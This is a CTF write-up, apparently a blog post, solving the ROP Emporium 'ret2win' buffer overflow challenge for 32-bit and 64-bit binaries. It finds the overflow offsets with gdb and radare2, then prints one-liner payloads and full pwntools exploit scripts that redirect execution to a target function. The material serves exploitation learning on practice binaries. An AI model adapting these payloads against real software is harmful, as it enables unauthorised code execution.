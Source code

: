 ```yaml
---
layout: post
title: "Ret2win32"
author: "Trojan187"
categories: ctf
tags: [practice,learning]
image: ret2win.jpg
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#analysis)
3. [Plan](#plan)
4. [Solution](#solution)
4. [64bit](#64bit)


##  Introduction

The challenge provides us with the binary.

HINT from: [!https://ropemporium.com/challenge/ret2win.html](https://ropemporium.com/challenge/ret2win.html)
As it states; you'll feed each binary with a quantity of garbage followed by your ROP chain. In this case there is a magic method we want to call and we'll do so by overwriting a saved return address on the stack. Certainly nothing that could be called a 'chain' by any stretch of the imagination but we've got to start somewhere. We'll do a little RE to confirm some information but nothing serious

---
### ROP-Emporium: ret2win32

_Files:_ `ret2win32`

---

##  Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/r2_aaaa.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x08048662` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_start_pattern_create.PNG">

Segmentation fault occured and EIP was overwritten by 'AFAA' `0x41414641`. The offset is located at 44 bytes. 
EIP can now be controlled.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_EIP_Seg_fault.PNG">

##  Plan

The hint said there will not be chaining required, hmmm the solution may just be that simple. So I thought I would just input the address I noted `0x08048662` when disassembling the ret2win() function im `Image#3` above. 


```python

run <<< $(python -c 'print "A"*44 + "\x62\x86\x04\x08"')
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_flag.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/flag.PNG">

##  Solution
##  32bit

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './ret2win32'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 44
buf += p32(0x08048662)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```

## 64bit

The challenge provides us with the 64bit binary.

---
### ROP-Emporium: ret2win64

_Files:_ `ret2win`

---

### Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64//r2_aaaa_afl.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x00400815` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/gdb_pattern_create.PNG">

Segmentation fault occured but this time RSP is holding 'AA0AAFAAb'. The offset is located at 40 bytes. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/gdb_seg_fault_offset.PNG">

### PLAN:

Same plan as the 32bit binary. Just input the address I noted `0x00400815` when disassembling the ret2win() function in `Image#3` above. 

```python
python -c 'print "A"*40+"\x15\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/flag_1_line.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/flag.PNG">

```python

#!/usr/bin/python
from pwn import *

# 0x00400815 mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"

binary_path = './ret2win'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 40

buf += p64(0x00400815)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```



### END
---
